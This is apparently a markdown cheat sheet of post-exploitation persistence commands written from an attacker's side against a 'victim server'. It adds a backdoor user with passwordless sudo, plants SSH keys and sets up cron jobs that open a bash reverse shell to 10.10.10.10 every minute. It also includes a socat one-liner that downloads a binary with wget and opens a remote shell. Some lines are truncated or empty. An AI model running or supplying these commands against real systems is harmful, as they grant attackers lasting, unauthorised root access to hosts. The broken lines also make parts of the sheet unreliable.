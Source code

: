 [generate an ssh key on attacker server](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent)

### add user

```
echo -e "drowssap\\drowssap\\" | useradd dev; usermod -aG sudo dev; echo "dev ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

### create ssh keys

on attacker server
```
echo "./user_rsa" | ssh-keygen -t rsa -b 4096 -C "your_email@example.com"; chmod 600 ./user_rsa; cat ./user_rsa.pub
```

on victim server
```
echo "" >> ~/.ssh/authorized_keys
```

on attacker server
```
ssh -i id_rsa user@${box_ip}
```

### basic reverse shells [revshell generator](https://www.revshells.com/)

**crontab / cronjob reverse shells (every minute)**

nano /etc/

```
* * * * *    /lib/systemd/revshell.sh
* * * * *    /usr/bin/revshell.sh
* * * * *    bash -i >& /dev/tcp/10.10.10.10/1337 0>&1
```
### upgrade revserse shells


**improve screen**

```
export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

**python**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


**socat** - [get socat here](https://github.com/andrew-d/static-binaries)

```bash
(load onto target box)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat

(listener)

socat file:`tty`,raw,echo=0 tcp-listen:4444

(target box)

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

(target oneliner)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**stty**

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 38 columns 116
```
